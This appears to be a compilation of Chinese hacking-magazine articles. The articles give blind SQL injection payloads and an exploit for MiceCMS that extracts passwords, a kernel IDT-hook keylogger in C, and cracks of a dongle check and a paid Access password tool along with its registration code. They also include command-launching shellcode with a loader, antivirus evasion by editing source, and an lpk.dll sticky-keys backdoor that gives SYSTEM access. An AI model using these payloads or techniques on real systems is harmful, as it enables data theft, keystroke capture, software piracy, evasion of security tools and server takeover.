- 猜解数据库名长度：  
  `and Length((database()))<8?`  
  // 如果返回正常，说明数据库长度小于 8。

- 猜解数据库名：  
  `and ascii(substring((database()),1,1))=122`  
  // 如果正常，说明数据库第一位是 z，其中 122 表示 z 的 ASCII 码。  
  `and ascii(substring((database()),2,1))=122`  
  // 表示猜解数据库第二位。

- 猜解表名长度：  
  `and Length((SELECT distinct table_name FROM information_schema.tables Where table_schema=0x6D696365636D73 limit 0,1))<10`  
  // 返回正常表示表名长度小于 10。由于系统有可能修改了表的前缀，所以如果服务器的 MySQL 版本高于 5.0，可以通过 information_schema 猜出表前缀。这里 `0x6D696365636D73` 是 micecms 的 HEX 格式。

- 猜解具体字段值：  
  `ascii(substring((SELECT password FROM micc_user LIMIT 0,1),1,1))=122`  
  // 猜解 password 字段的第一个值，如果返回正常表示第一个字符为 z。

提高猜解效率，我将数据分成了两部分：一部分数字，一部分字母。如果 ASCII 码小于 58 返回正确，那么说明这位是数字，那么就进行数字猜解；否则进入字母猜解。如果 `$return` 为真，说明此 SQL 语句正确，也就是猜解成功一位，那么就返回当前 ASCII 码。由于这段代码是影响 EXP 效率的关键地方，因此对这里的优化相当重要。开始我没有对数字和字母进行分类处理，后来进行分类后效率提高了将近 30%。当然这里不是最优算法，使用折半查找的方法效率更高，这就交给读者自己写吧。

上面那个函数是获得一个字符，下面这个函数就是将多个字符组成字段值。首先通过 chr 函数将 ASCII 码变成字符，然后将它保存在 `$val` 这个变量中，一旦猜解完毕，就将这个值返回。

## 四、测试 EXP

通过上面的几个函数的讲解，我想大家应该明白了写 PHP 的基本思路了，还有些函数我就不一一介绍了。下面我本地测试下 EXP 的使用。

首先，我们在 cmd 中找到 php 的路径，然后输入 exp 的路径，填入 IP 或者网址，后面填入具体的路径，然后回车，EXP 就会慢慢地进行猜解了，图 11。


下面进行具体猜解函数的编写，首先 GotData 函数，为……

下面我们看看使用 EXP 的效率如何。我先介绍下 MICECMS 的加密模式。MICECMS 的一个账号包括一个用户名，一个 40 位的 sha1 加密的密码，还有一个 32 位的 salt。也就是手工猜解肯定要花费很多时间的，下面我们看看使用 EXP 猜解 2 个账号使用的时间，图 12。使用 EXP 只花费了 62 秒就猜解了两个账号，可见效率还是比较可以的。不过如果测试远程网址，就跟本地网速和远程网站的网速有很大的关系了。经过我的测试，在网速正常的情况下，1 个账号在 2 分钟内还是可以猜解出来的。虽然说速度肯定不能和 union 查询相比，不过至少说比手动猜解快多了。

## 五、后记

可以说写 EXP 是一个小菜慢慢向上提高的必经阶段，我也在学习的阶段，所以代码的规范性和效率还有待提高。由于篇幅有限，我也没有讲解所有的代码，我会将代码留下，如果有不足之处希望大家和我一起交流学习。

> （文章中涉及的相关源码本期光盘已收录）

# RING3

## 通过修改中断描述表跳出键盘监控程序

何为中断门？众所周知，Windows 有 R0 和 R3 之分，要想从 R3 进入 R0 有很多方法；其中之一就是“穿过”名叫中断门的这扇“门”。人们把由中断引起的用户模式与内核模式的切换，形象地称之为穿过中断门。要说如何穿过中断门，这就离不开中断描述表 IDT，或者称之为中断索引表。

IDT 者，Interrupt Descriptor Table 也。名字很吓人，究其实质就是一块存放特殊数据的内存。

每当按下键盘上的键子就会产生一次键盘中断，每当点击鼠标就会产生一次鼠标中断，可见中断无处不在。操作系统每次收到中断就会访问这块名叫 IDT 所代表的内存，然后根据中断索引来找到相应的处理函数，进而来处理此次中断。试想一下，如果我们把键盘的中断处理函数 hook 掉，是不是就能达到监控键盘的目的呢？答案是肯定的。

中断分为硬件中断和软件中断。硬件中断又被称之为 IRQ。一个 IRQ 是来自于哪个硬件，一般来讲都是固定的，比如 IRQ1 就一定是 PS/2 键盘的中断。实际上每个 IRQ 存在一个“中断索引”（中断号）与之对应，比如，在排除 IOAPIC 重定位的情况下，IRQ1 对应的就是 int 93h……

```c
#pragma pack(push,1)
typedef struct _IDT_ELEMENT {
    WORD offset_low;
    WORD selector;
    BYTE reserved;
    BYTE type:4;
    BYTE always0:1;
    BYTE dpl:2;
    BYTE present:1;
    WORD offset_high;
} IDT_ELEMENT, *PIDT_ELEMENT;
#pragma pack(pop)
```

其实 IDT 这块内存是由许多上面的结构体“叠砌”而成的，中断的处理函数地址就写在其中。在 32 位的情况下，中断处理函数的地址是 32 位的，但是很蛋疼的是，它被分成了两部分：offset_low 中是低 16 位，offset_high 是高 16 位。

在 32 位情况下，中断处理函数地址被拆分为 offset_low 和 offset_high。type 是中断类别，类似 `BYTE type:4` 的声明表示仅占 4 位；同理 always0、dpl、present 也按位占用。鉴于前辈经验，定义了几个宏如下：

```c
#define GET_IDT_ADDRESS(low, high) \
    ((DWORD)(((WORD)((DWORD)(low) & 0xffff)) | \
    ((DWORD)((WORD)((DWORD)(high) & 0xffff)) << 16)))

#define SPLIT_IDT_LOW16(data) \
    ((WORD)(((DWORD)data) & 0xffff))

#define SPLIT_IDT_HIGH16(data) \
    ((WORD)(((DWORD)data) >> 16))
```

GET_IDT_ADDRESS 是把高低 16 位地址转换成 32 位地址，SPLIT_IDT_LOW16 是取 32 位地址的低 16 位，SPLIT_IDT_HIGH16 是取 32 位地址的高 16 位。

下面来看具体的索引过程。当执行 int 93 这条指令的时候，操作系统找到 IDT 表中第 0x93 个 IDT_ELEMENT 结构，然后得到里面的处理函数，进而执行处理函数。一切就是如此简单，只需要改变 offset_low 和 offset_high 就能达到 hook 的目的。接着介绍如何获得 IDT 表地址：

```c
#pragma pack(push,1)
typedef struct _IDT_INFO {
    WORD limit;
    DWORD base;
} IDT_INFO, *PIDT_INFO;
#pragma pack(pop)

void* GetIdt()
{
    IDT_INFO idtr;
    __asm sidt idtr;
    return (void*)idtr.base;
}
```

上面的函数就是获得 IDT 的过程，`sidt idtr` 意为把 IDT 的地址存放在 idtr 中。获取到 IDT 后，又要怎样 Hook 呢？看如下代码：

```c
void HookInt93(void* pHookFunction)
{
    PIDT_ELEMENT pInt93=(PIDT_ELEMENT)GetIdt();
    pInt93 += 0x93;

    DbgPrint("Int93 Call Break Function Is %08X\n",
        GET_IDT_ADDRESS(pInt93->offset_low,pInt93->offset_high));

    if(pHookFunction)
    {
        pOldFuction=(void*)GET_IDT_ADDRESS(pInt93->offset_low,pInt93->offset_high);
        pInt93->offset_low  = SPLIT_IDT_LOW16(pHookFunction);
        pInt93->offset_high = SPLIT_IDT_HIGH16(pHookFunction);
    }
    else
    {
        pInt93->offset_low  = SPLIT_IDT_LOW16(pOldFuction);
        pInt93->offset_high = SPLIT_IDT_HIGH16(pOldFuction);
    }

    DbgPrint("New Int93 Call Break Function Is %08X\n",
        GET_IDT_ADDRESS(pInt93->offset_low,pInt93->offset_high));
}
```

这里要说明一下，这段代码在多个 CPU 的情况下是有缺陷的，因为每一个 CPU 都对应着自己的 IDT，所以要进行 CPU 的切换，这里不做介绍了，有兴趣的童鞋可以 Google 一下，很简单的说。

接下来，就是考虑要用什么样的函数去替换“老”的键盘中断处理函数。因为要保持堆栈平衡，所以推荐写成如下形式：

```c
void __declspec(naked) NewInt93()
{
    __asm
    {
        pushad
        pushfd
        call ReadAndWriteKbd
        popfd
        popad
        jmp pOldFuction
    }
}
```

naked 是告诉编译器不要生成杂七杂八的东西，直接生成我们的代码，这样才能堆栈平衡，才不会出问题。钩子是挂上了，但是怎么读取键盘的输入呢？许多前辈指出可以用读取硬件端口的形式。先介绍一下有关于键盘的端口吧。要用到的端口一共有 2 个，一个是 0x60，一个是 0x64。这两个端口的配合很猥琐，0x60 是数据端口，用指令 `in al,0x60` 即可获得从键盘输入的数据。而 0x64 是状态端口，因为 0x60 端口不是每时每刻都是可读或者可写的，所以 0x64 标志了 0x60 端口到底是可读还是可写。下面来看代码：

```c
ULONG WaitForKbdWriteAble() // 判断0x60是否为可写
{
    int i=100;
    BYTE buf;
    do {
        __asm {
            in  al,0x64
            mov buf,al
        }
        KeStallExecutionProcessor(50);
        if(!(buf & IBUFFER_FULL)) { break; }
    } while(i--);

    if(i) return TRUE;
    return 0;
}

ULONG WaitForKbdReadAble() // 判断0x60是否为可读
{
    int i=100;
    BYTE buf;
    do {
        __asm {
            in  al,0x64
            mov buf,al
        }
        KeStallExecutionProcessor(50);
        if((buf & OBUFFER_FULL)) { break; }
    } while(i--);

    if(i) return 1;
    return 0;
}
```

0x60 端口中就没有内容了，如果不做处理直接传到原始的处理函数的话，操作系统就会一点反应木有的，因为木有数据可处理。所以在向下传之前，还要把数据再写回 0x60 端口去，然后再向下到原始的处理函数。此时问题又出现了：虽然我们把内容传了下去，但是在写端口的同时，又会引发一次键盘中断，又会执行一次我们的新的处理函数，这是一个死循环。要解决这个问题，可以预先定义一个全局变量，把第一次读取的内容保存到这个全局变量里；在第二次读取端口之后，比较新读取的内容和第一次读取的内容，如果相同则不回写 0x60 端口。

```c
void ReadAndWriteKbd()
{
    BYTE bRead;
    WaitForKbdReadAble(); // 等待端口可读
    __asm {
        in  al,0x60 // 读取端口
        mov bRead,al
    }

    KdPrint(("Scan Code is %2X\n", bRead)); // 打印数据

    if(bRead != bUsed) {
        bUsed = bRead;
        __asm {
            mov al,0xD2
            out 0x64,al
            call WaitForKbdWriteAble // 等待端口可写
            mov al,bRead
            out 0x60,al // 回写端口
        }
    }
}

typedef unsigned char  BYTE;
typedef unsigned short WORD;
typedef unsigned long  DWORD;
```

上面的两段代码是判断端口是否可读可写，下面的代码就是真刀实枪地读取键盘输入了。再看代码之前，小菜我要交代一件事情：首先我读取 0x60 端口中的内容，读段后，

> （文章中涉及的相关代码本期光盘已收录。）

# 打狗记

## ——移动设备校验软件破解

相信很多人都用过加密狗。所谓加密狗是指在软件运行的过程中要插入指定的设备，通常是 USB key 或者其他的即插即用设备，并且在程序运行中不能够把设备拔出来。一旦设备拔出来之后程序将停止运行。最近刚好用到这种类型的软件，于是就把它拿来练练手了。

由于涉及到软件的版权和其他相关的敏感信息，在本文中就不提供该软件的相关信息了，为了只是学习一种破解的思路。直接运行软件后会弹出一个“请检查 USB Key 是否插好”的错误提示，如图 1：


图1

首先是查壳，PEiD 载入软件主体后发现是 VB 的程序。这种情况下让人有点头疼了。VB 这种解释型语言编写出来的程序破解起来都比较麻烦。不过比较欣慰的是好软件没有加壳，如图 2：


图2

一般来说，使用 USB key 作为验证方式的会使用到 GetLogicalDrives 这个函数做判断。这个函数的作用是判断系统中存在哪些逻辑驱动器。OD 载入主程序后，对 GetLogicalDrives 下 API 断点，Ctrl+F9 执行程序到返回，鼠标空转一阵子之后来到系统领空，然后 Alt+F9 执行到返回，这时会弹出了检查 USB key 是否插好的对话框，点击确定后来到了程序领空，附近代码如下：

```asm
00547ED0  BB 08000000      mov ebx,0x8
00547ED5  8D55 8C          lea edx,[ebp-0x74]
00547ED8  8D4D CC          lea ecx,[ebp-0x34]
00547EDB  8945 B4          mov dword ptr ss:[ebp-0x4C],eax
00547EDE  8945 C4          mov dword ptr ss:[ebp-0x3C],eax
00547EE1  C745 94 04514000 mov dword ptr ss:[ebp-0x6C],EraseDis.004>
00547EE8  895D 8C          mov dword ptr ss:[ebp-0x74],ebx
...
00547F11  FF15 7C104000    call dword ptr ds:[<&MSVBVM60.#595>]
MSVBVM60.rtcMsgBox // 这里就是弹出错误提示窗口的地方
```

```asm
00547EC0  838D 64FFFFFF 09   cmp dword ptr ss:[ebp-0x9C],0x1  // 判断 USB KEY 是否正常插入
00547EC3  74 73              je short EraseDis.00547F38       // USB KEY 存在则验证通过
00547EC5  895D AC            mov dword ptr ss:[ebp-0x54],ebx
00547EC8  895D BC            mov dword ptr ss:[ebp-0x44],ebx
00547ECB  B8 04000280        mov ...
```

# 黑客编程

```asm
00547F17 8D55 AC                lea edx,dword ptr ss:[ebp-0x54]
...
00547EBC 83BD 64FFFFFF 00       cmp dword ptr ss:[ebp-0x9C],0x1
00547EC3 74 73                  je short 00547F38
```

这处地方是判断了在运行程序的时候 key 盘是否存在，若存在则跳转到地址 00547F38 处。而 00547F11 ... `call dword ptr ds:[<&MSVBVM60.#595>]`，这里就是弹出对话框的地方了，所以我们把上面的那个跳转修改为 `jmp`，强制跳过此验证。


图3

保存后运行发现已经不弹窗了，成功出现了用户认证。随后便输入一个密码点击确定，程序再次被拦截在了系统领空，alt+F9 回到程序领空，如愿弹出了对话框，可是让人意想不到的是，错误提示后还是验证 USB key，如图4。


图4

仔细观察可以发现这个错误提示和之前的稍有不同，多了“认证失败”几个字。不用管它，和之前一样下 GetLogicalDrives 的断点，如法炮制将弹出错误窗口地方上的 `je` 跳转改为 `jmp`，再次运行输入任意密码的时候终于弹出来密码错误的提示了。

继续分析程序，验证输入密码的地方如下：

```asm
0054CE18 FF15 84114000         call dword ptr ds:[<&MSVBVM60.__vbaFreeObj>]
0054CE1E 66:85FF               test di,di
0054CE21 74 7D                 je short 0054CEA0
...
```

```asm
lea esi,dword ptr ds:[<&MSVBVM60.__vbaVarDup>]
0054CE29 B9 04000280           mov ecx,0x80020004
0054CE2E 894D A8               mov dword ptr ss:[ebp-0x58],ecx
0054CE31 B8 0A000000           mov eax,0xA
...
0054CE79 50                    push eax
0054CE7A FF15 7C104000         call dword ptr ds:[<&MSVBVM60.#595>] ; MSVBVM60.rtcMsgBox
; 弹出“密码为空”的错误提示窗口
```

```asm
0054CF80 8D4D A0               lea ecx, dword ptr ss:[ebp-0x60]
```

上面的代码功能是如果输入空密码的话就会弹出“密码为空”的错误提示，继续往下看可以发现密码对比的地方：

```asm
0054CF7B 66 83BD 4CFFFFFF 00   cmp word ptr ss:[ebp-0xB4],0x0
0054CF83 0F84 0F010000         je 0054D098
...
```

```asm
0054CFD3 8D55 A0               lea edx, dword ptr ss:[ebp-0x60]
0054CFD6 8D45 B0               lea eax, dword ptr ss:[ebp-0x50]
0054CFD9 52                    push edx
0054CFDD 50                    push eax
...
```

其中：

```asm
0054CF7B 66 83BD 4CFFFFFF 00   cmp word ptr ss:[ebp-0xB4],0x0
0054CF83 0F84 0F010000         je 0054D098
```

这两句就是对比密码的地方了。这里的修改方式是：

```asm
0054CE1E 66 85FF               test di,di
0054CE21 74 7D                 je short ...
```

将 `je` 改为 `jmp`，也就是说不管有没有输入密码都进行下一步的比较。然后将后面的 `je` 也改为 `jmp`，这样的话输入任意密码都可以进去了。

登录进去后又遇到了新的问题：要使用里面的各项功能的时候都弹出了“请检查USB Key是否插好”的错误提示。不过到了这里一切都很简单了：对 GetLogicalDrives 下断点后点击相应的功能键，然后返回到程序领空后把相应的跳转像之前那样修改掉。修改了所有的跳转后，软件就成功被我们破解了，换句话说就是：打狗成功。

## Access密码破解软件的爆破

## 沧海浮萍

好久没写软件破解的稿子了，今天下载了一个 Access 密码破解的软件，一看还是收费的，郁闷之下将其破解。破解的手段还是一些常规软件破解手段，下面就介绍一下破解的过程。

由于软件没有加壳，所以这里就不进行外壳处理了。没有破解之前的软件运行时其标题显示的是“未购买用户”，而且在关闭软件时会出现如图1所示的提示购买界面。软件破解 Access 的密码是有长度限制的，只能显示密码的前四位。由于软件没有加壳，所以这里就直接载入到 OD 了。我们采用普通的字符串查找法来搜索程序里的字符串，找到了我们需要的东西，如图2、图3所示。

我们要处理的软件分三部分：去除软件未购买标题，去除软件关闭时的提示信息框，去除软件只能显示4位密码的限制。首先我们来进行第一步：去除软件未购买标题。

字符串“4CC5FC13710F5C4E”，我们先记录一下。继续执行，来到如下所示的代码位置：


图1


图2


图3

“004B8E50”这里就是我们要去掉的标题，而 004B8E3B 位置的跳转就是关键跳转，我们将这个 `jnz` 修改为 `jmp`，让程序跳走，保存一下，运行，如图6所示，标题的提示已经没有了。下面我们继续去掉软件关闭时的提示。将刚才修改的软件载入到 OD，找到提示信息。

```
项目1647
地址=004B9B3B
反汇编=MOV EDX,acpasser.004B9B70
文本字符串=本软件未购买以前只能显示前4位密码，购买后没有限制。您现在要购买吗？
```

双击“未购买用户”一行所在的代码，来到如图4所示的位置，我们向上回溯，来到这一段代码的段首位置，如图5，按 F2 下好断点，重新加载我们的程序，运行。此时程序中断在我们刚才设置的断点位置，我们按 F8 单步向下执行。在单步执行的过程中我们会在寄存器中看到这么一行。

双击来到指定的代码位置，继续按照上面的方法向上回溯，在不远处我们就可以看见段首的代码，如图7所示。

# 黑客编程

继续按 F2 下好断点，F9 运行程序，然后点击关闭，这时程序就中断下来了。我们按快捷键 F8 单步执行，来到一个跳转的位置，代码如下所示：

```asm
004B9B2B  803D 7CF14B00         CMP BYTE PTR DS:[4BF17C],0
004B9B32  75 2F                 JNZ SHORT acpasser.004B9B63
004B9B34  6A 24                 PUSH 24
004B9B36  B9 689B4B00           MOV ECX,acpasser...
004B9B3B  BA 709B4B00           MOV EDX,acpasser...
004B9B40  A1 D8064B00           MOV EAX,DWORD PTR DS:[4BD6D8]

提示：本软件未购买以前只能显示前4位密码，购买后没有限制。您现在要购买吗？
```

位于 004B9B32 处的代码就是关键，我们修改跳转为 `jmp` 让程序跳走，保存，运行再测试，OK，这次程序就直接关闭了，那个提示购买的对话框也没有出现。


现在就剩下最关键的一个步骤了：解除限制。这个限制的解除我们也从一个提示上入手——“选择所要破解密码的Access数据库所在目录”。我们双击这个字符串来到代码位置，如图8所示，我们依旧在段首的位置设置断点，如图8所示。

然后按 F9 执行我们的程序。我们单击按钮“选择目录”，如图9，选择我们要解密的数据库。这时程序会中断下来，我们按 F8 单步执行，当执行到 `004B9110 | E8 63A1FCFF CALL acpasser.00483278` 时，我们的选择对话框就会弹出来，选择数据库所在的目录，如图10所示。

选择完毕之后程序会再次中断下来，我们继续单步执行。当我们执行到下面的代码位置时就来到了关键地方：

```asm
004B92D8  C745 CC E0D34...      MOV DWORD PTR SS:[EBP-34],acpasser.004BD...
004B92DF  8D85 98FDFFFF         LEA EAX,DWORD PTR SS:[EBP-268]
004B92E5  8A17                  MOV DL,BYTE PTR DS:[EDI]
004B92E7  8B4D CC               MOV ECX,DWORD PTR SS:[EBP-34]
004B92EA  3211                  XOR DL,BYTE PTR DS:[ECX]
004B92EC  E8 73B9F4FF           CALL acpasser.00404C64
...
004B930F  75 D6                 JNZ SHORT acpasser.004B92DF
004B9309  803D 7CF14B00         CMP BYTE PTR DS:[4BF17C],1
004B9310  75 10                 JNZ SHORT acpasser.004B9322
...
004B9320  EB 35                 JMP SHORT acpasser.004B9357
```

这里就是数据库密码破解的算法核心，我们走过算法之后，来到一个跳转 `004B9310 | 75 10 JNZ SHORT acpasser.004B9322`，而这个跳转就是关系到我们的密码显示几位的问题。这里将其修改为 `je`，保存，运行测试，OK，密码显示如图11所示，已经全部搞定了。


上面破解的过程中我们记录了一个字符串“4CC5FC13710F5C4E”，其实这个字符串就是注册码。我们单击“软件购买”按钮，在“注册码”一栏中输入这个字符串，“用户名”不填，填写完毕后重启程序，这时就会出现如图12的界面，注册成功。这个软件竟然需要68元，哎，我们小菜哪有这些钱来买这个软件啊，还是将其破解吧。

## shellcode心语

相信大家对 shellcode 不会陌生，但如果要写个 shellcode 的话，我想可能对一部分读者来说会有一定的难度了。本文中笔者将会介绍一下最简单的 shellcode 的编写技巧以及需要注意的问题。本文介绍的 shellcode 是打开一个 cmd 窗口。首先我们创建一个 C++ 的程序，这里我直接用内联汇编写出代码了。因为代码中用到了函数 system 的地址，所以我们先要获取这个函数的内存地址，获取内存地址的代码如下：

```c
printf("system = 0x%x\n", GetProcAddress(LoadLibrary("msvcrt.dll"), "system"));
```

这里大家要注意，system 函数位于 msvcrt.dll 动态链接库中，所以在使用函数之前大家要确定所使用的函数位于哪一个库。下面就是打开 cmd 窗口的内联汇编代码：

```asm
{
    call EXEC;
}
```

```asm
_emit 'c';
_emit 'o';
_emit 'm';
_emit 'm';
_emit 'a';
_emit 'n';
_emit 'd';
_emit '.';
_emit 'c';
_emit 'o';
_emit 'm';
_emit '\0';

EXEC:
  mov eax, 0x77bf93c7;
  call eax;
  add esp, 0x12;
```

下面就为读者解释一下代码的含义。`call EXEC` 就是调用 `EXEC` 模块的代码，`_emit` 是 MASM 中的关键字，用来逐字节构造字符串（这里构造的是 `command.com`，并在结尾加 `\0`）。


接着分析 `system()` 函数原型 `int system(const char *command);`。文中说明通过动态获取 `system` 地址（示例为 `0x77bf93c7`），放入 `eax` 后 `call eax` 执行。由于前面压入了 12 字节数据，需用 `add esp, 0x12` 平衡栈。

要加入一句指令：`LoadLibrary("msvcrt.dll")`，因为 `system` 位于该库中。执行后可弹出 `cmd` 窗口，说明代码流程有效。


汇编写完后，下一步是 shellcode 提取。文中介绍两种方法：从 VC++ 平台提取和从内存提取。


在汇编位置下断点并单步执行，打开 `Code Bytes` 后可抄出机器码。再将空格替换为 `\x` 形式，即可得到 shellcode。

```text
\xE8\x0C\x00\x00\x00\x63\x6F\x6D
\x6D\x61\x6E\x64\x2E\x63\x6F\x6D
\x00\xB8\xC7\x93\xBF\x77\xFF\xD0
```

```
\x83\xC4\x12
```

我们来测试一下这些机器码。shellcode 的使用一般情况下放在一个 char 型的数组里，调用 shellcode 的数组时采用如下的指令执行 `((void(*)(void))&ShellCode)();`。这句指令是放诸四海皆准的，大家可以将它背下来。全部的执行代码如下：

```c
#include <string.h>
#include <stdio.h>
#include <windows.h>

unsigned char ShellCode[] =
"\xE8\x0C\x00\x00\x00\x63\x6F\x6D"
"\x6D\x61\x6E\x64\x2E\x63\x6F\x6D"
"\x00\xB8\xC7\x93\xBF\x77\xFF\xD0"
"\x83\xC4\x12";

int main()
{
    LoadLibrary("msvcrt.dll");
    ((void(*)(void))&ShellCode)();
    return 0;
}
```

千万不要忘记包含头文件 windows.h。我们来运行一下看看（如图6），完全一样的结果，这说明我们的 shellcode 执行成功。到这里我们使用 VC++ 提取 shellcode 就结束了，下面我们使用 OD 来提取我们的 shellcode。


为了好区分我们汇编的代码位置，我们在内嵌汇编代码的前后加上 `printf("********")`；这样我们就可以很好地区分我们的代码了。我们将程序放入 OD 后选择“查看->可执行模块”（如图7），来到了下图所示的位置（如图8）。


选择我们程序所在的那一行后双击（如图9），前往 jmp 的地址 0040D710，到这里我们就可以看到我们的代码标志了（如图10）。


我们的 shellcode 就位于两者之间，但不能全都复制，因为里面有不是的。怎么区分呢？很简单。printf 是一个函数，所以用 call 来执行，执行完毕后需要平衡堆栈，所以用了 `add esp,4`。这样这三句代码都是 printf 的代码，我们不要。所以我们的 shellcode 的起始位置是 0040D746，结束位置是 0040D761（如图11）。我们选择这段代码，点击右键，选择“二进制->二进制复制”（如图12）。这样我们就可以得到用空格分割的机器码了，复制之后的机器码如下：

```
83 C4 04 E8 0C 00 00 00 63 6F 6D 6D 61 6E 64 2E 63 6F 6D 00 B8 C7 93 BF 77 FF D0 83 C4 12
```

跟我们上面获得的是完全一样的。采用这种方法提取 shellcode 时特别需要注意前后特征位置的部分指令，一般情况下特征 call 之后的那个 add 或 sub 不是我们要的，而是用来平衡堆栈的。


本文中介绍了简单的 shellcode 的编写技巧以及提取技巧。shellcode 需要经常练习才能写出质量高的 code 来，如果文章中有什么错误，还请读者指正。

> （文章中所涉及到的程序及代码已收录在光盘中）

# VC++ 源码免杀实战分析

沧海浮萍

谈到免杀，最近几年特别流行的就是源码免杀技术。当然，如果你有一款不为人知的绝密壳的话更是甚好。这里笔者再次带领大家学习一下在 VC++ 编程平台下的源码免杀技术。在这里假设读者对于特征码的定位都已经熟悉了，所以笔者在这里就不再进行特征码的定位了。采用模拟的手段为读者介绍该平台下的源码免杀技术。

首先我们需要先对 VC++ 编程平台进行一些配置，笔者这里使用的是 VC++ 6.0。打开我们要进行源码免杀的程序，然后点击“工程→设置”（如图1）。


此时将打开工程配置界面（如图2）。


我们选择“C/C++”选项卡，然后在“工程选项”中输入 `/Zd`（如图3）。


下面打开“连接”选项卡（如图4）。


选中“产生 MAP 文件”的选项，并在“工程选项”中添加新的指令 `/MAPINFO:LINES`（如图5）。


在这些配置都完成后，我们点击编译、连接就可以生成 MAP 文件。生成后的 MAP 文件位于 Debug 或 Release 目录中（如图6）。


## 小知识：什么是 MAP 文件？

简单地讲，MAP 文件是程序的全局符号、源文件和代码行号信息的唯一文本表示方法，是整个程序工程信息的静态文本。它可以在任何地方、任何时候使用，不需要有额外的程序进行支持，仅仅通过一个文本阅读工具（如 UltraEdit）就可以打开。我们可以使用记事本直接编辑它，通过这个文件我们定位出内存地址中的代码所对应的源程序代码，这样我们就可以对源程序进行免杀了。

获取了 MAP 文件之后，我们来看一下这个 MAP 文件应该怎么使用。我们使用记事本打开这个文件之后可以看到很多的数据（如图7）。

```text
Preferred load address is 00400000

Start         Length     Name      Class
0001:00000000 00010740H .text      CODE
0001:00010746 0001000AH _textbss   CODE
0002:00000000 00001388H .rdata     DATA
0002:00001388 00000000H .edata     DATA
0003:00000000 00000108H .CRT$XCA   DATA
...           ...       ...        ...
```

图7

但我们最需要的是下面列出的这两部分信息。

第一部分：

```text
Address          Publics by Value
Rva+Base   Lib:Object

0001:00002010        _main
00401010 f  opipe.obj

0001:00000234        _CreateProcessA@40
00401234 f  KERNEL32.dll

0001:0000023a        _accept@12
0040123a f  WS2_32.dll

0001:00000240        _listen@8
00401240 f  WS2_32.dll

...（后续符号表项）...
00401300 f  LIBCD.crt0.obj
00401430 f  LIBCD.crt0.obj
```

第二部分：

```text
entry point at        0001:00000300

Line numbers for .\Debug\opipe.obj(...)
```

```text
...\vc++源码免杀实例源代码\opipe.cpp) segment .text

7  0001:00000010     13 0001:00000026
16 0001:00000049     20 0001:0000006a
21 0001:00000073     22 0001:0000008e
23 0001:00000098     24 0001:000000bd
27 0001:000000db     28 0001:000000e5
31 0001:0000010f     32 0001:00000122
33 0001:0000012c     34 0001:00000135
36 0001:0000013e     37 0001:00000162
40 0001:00000179     42 0001:000001b1
43 0001:000001b3
```

这里的两组数据分别是函数与行偏移。例如：`23 0001:00000098`，说明行偏移为 98 的行数是第 23 行。

通过第一部分的信息我们评估出我们的特征码位置是在源代码中的哪个函数中，通过第二部分信息我们确定特征码所隶属的源代码的行位置。现在我们假设我们程序的特征码的偏移地址是 `10e`，对应的内存地址就是 `0040110e`。我们从第一部分的“Rva+Base”中可以发现 `0040110e` 这个内存地址靠近 `00401010`，所以我们可以确定我们的特征码位于 `main` 函数中。（由于这里笔者的自定义函数只有一个大的主函数，所以只可能在 main 中。这里要注意，我们不能选择系统的函数，因为这些函数不在我们的源代码中，我们只是使用了系统的函数，例如：`_CreateProcessA@40`）。

下面我们就要开始定位具体的代码行数了，这里有一个计算公式如下所示：

行偏移 = 内存地址（Mem Address）— 基地址（ImageBase Address）— `0x1000`（由于一般的 PE 文件的代码段都是从 `0x1000` 偏移开始的）。

通过这个公式我们就可以确定出源代码的行位置来。行数 = `0040110e - 00400000 - 1000 = 10e`，这样我们就可以确定特征码对应的源代码的行位置大约是 `10e` 的位置。我们通过第二部分来查找一下，`10e` 最靠近 `10f`，也就是“`31 0001:0000010f`”，这样我们就定位在了 31 行附近。由于特征码的位置较 31 行小，所以第 31 行前面的才是我们特征码的具体位置。这里假设我们定位的特征码是 2 个字节，那么特征所在的源代码的函数就应该是 30 行，对应源代码中的 **STARTUPINFO si;**。当然一般情况特征码定位不会出现在赋值语句上，这里只是举个案例为大家讲解。

找到了源代码之后剩下的就是修源程序了，至于怎么修改就要看大家了，方法很多，不过笔者推荐使用内联汇编，这样的效果最好。

（文章中所涉及到的程序已经收录在光盘中）

# 利用 lpk.dll 提权

接触到 lpk.dll 比较偶然，有一个网站拿到了 webshell 但是提权一直没搞定，然后在土司看到了 Rices 发的一个利用 lpk.dll 提权的粘滞键后门工具，觉得可以用来提权，就下载了来看看。

## 一、利用 lpk 劫持方式粘滞键后门提权


我下载了 Rices 提供的 lpk 劫持方式粘滞键后门，在虚拟机里的 Windows 2003 系统中测试可用。把工具的用法简单介绍给大家。利用 lpk.dll 提权需要满足的条件是：你对服务器开机运行的可执行文件或管理员可能运行的可执行文件所在目录拥有可写权限。

这是一个 lpk.dll 粘滞键后门的生成器。在生成器中有两个东西需要设置，一个是呼出后门的热键设置，另一个是后门的验证密码。呼出后门的热键是后门运行后你在终端服务登录验证界面调出后门程序需要按的键盘上的键。由于需要同时按下，为了方便，我设置为键盘上连着的 ASD 键。不能直接输入 ASD，需要写 ASD 对应的热键代码，作者在软件目录下给出了一份热键代码表。

通过表查到 ASD 对应的热键代码分别为 65、83、68。后门的验证密码可以随便设置，这里我设置为 123456。选中“UPX 压缩，可以有效减小体积”选项后可以对生成的 lpk.dll 进行压缩，视自己需要进行选择。不过为了防止被杀毒软件因加壳而查杀，个人建议不要进行压缩。我选择不压缩，点“生成”按钮后生成了 lpk.dll。


我一直想提权但没成功的那台服务器满足这个条件。打开 Rices 发的利用 lpk.dll 的粘滞键后门，界面如图1。把生成的 lpk.dll 复制到一个有 exe 文件的目录下（文中示例为阿D所在目录），然后运行对应可执行文件。

看看 lpk.dll 有没有被阿D的可执行文件 AD.exe 加载，使用工具为 Wsyscheck。打开 Wsyscheck，在“进程管理”中选中 AD.exe，在下面的“模块路径”中显示了 AD.exe 加载的 DLL 文件，发现已经加载了 AD.exe 同目录下的 lpk.dll，也就是我们的粘滞键后门，如图4。


来看下后门的功能，启用虚拟机里的远程桌面功能，用远程桌面连接程序连接 127.0.0.1，也就是连接本机。在登录界面按键盘上的 Shift 键 5 次，出来如图5的粘滞键设置对话框，就说明后门已经运行了。这个是粘滞键的高仿后门，除了图中多了我用方框圈出来的那个图标外，和真正的粘滞键设置程序的界面一模一样。


图5


图6


图7

同时按下键盘上的 ASD 键，就出来了如图6的输入验证密码的输入框（发出来的话多按几下，一定要 ASD 键同时按下），输入提前设置的密码 123456，点“GO!”就来到了如图7的后门功能界面。在这里可以以 System 权限执行 cmd 命令，输入命令后点“Run”按钮就可以执行了，图中是我执行 whoami 命令后的结果，显示为 system。利用这个执行命令的功能可以做很多事，比如添加管理员用户等。

